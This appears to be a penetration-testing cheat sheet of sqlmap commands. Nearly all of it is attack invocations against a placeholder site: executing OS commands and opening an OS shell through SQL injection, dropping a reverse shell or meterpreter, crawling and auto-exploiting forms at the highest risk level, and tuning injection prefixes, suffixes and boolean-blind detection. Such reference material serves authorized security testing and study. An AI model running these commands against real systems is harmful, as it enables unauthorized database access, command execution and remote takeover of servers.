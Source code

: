 ## Shell

```bash
#Exec command
python sqlmap.py -u "<http://example.com/?id=1>" -p id --os-cmd whoami

#Simple Shell
python sqlmap.py -u "<http://example.com/?id=1>" -p id --os-shell

#Dropping a reverse-shell / meterpreter
python sqlmap.py -u "<http://example.com/?id=1>" -p id --os-pwn

```

## Crawl a Website with SQLmap and Auto-exploit

```bash
sqlmap -u "<http://example.com/>" --crawl=1 --random-agent --batch --forms --threads=5 --level=5 --risk=3

--batch = non interactive mode, usually Sqlmap will ask you questions, this accepts the default answers
--crawl = how deep you want to crawl a site
--forms = Parse and test forms

```

# Customizing Injection

## Set a Suffix

```bash
python sqlmap.py -u "<http://example.com/?id=1>"  -p id --suffix="-- "

```

## Prefix

```bash
python sqlmap.py -u "<http://example.com/?id=1>"  -p id --prefix="') "

```

## Help Finding Boolean Injection

```bash
# The --not-string "string" will help finding a string that does not appear in True responses (for finding boolean blind injection)
sqlmap -r r.txt -p id --not-string ridiculous --batch

```
